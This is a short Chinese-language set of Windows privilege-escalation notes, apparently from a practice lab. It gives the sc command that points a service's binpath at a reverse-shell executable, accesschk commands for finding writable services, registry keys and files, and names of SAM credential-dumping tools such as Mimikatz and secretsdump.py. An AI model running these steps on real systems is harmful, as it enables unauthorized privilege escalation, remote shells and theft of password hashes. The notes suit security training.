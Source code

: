 

查询服务：  
sc qc <服务名称>

修改服务配置并将 BINARY_PATH_NAME (binpath) 设置为您创建的reverse.exe可执行文件：  
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""

**启动服务**

net start <服务名称>

**accesschk.exe**

accesschk.exe 检查某个账户对某个服务的权限

栗子：  

使用 accesschk.exe 检查“user”帐户对“daclsvc”服务的权限：  
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc

C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc

C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1




### SAM文件

检索SAM文件工具：  
pwdumpx.exe
gsecdump
Mimikatz
secretsdump.py

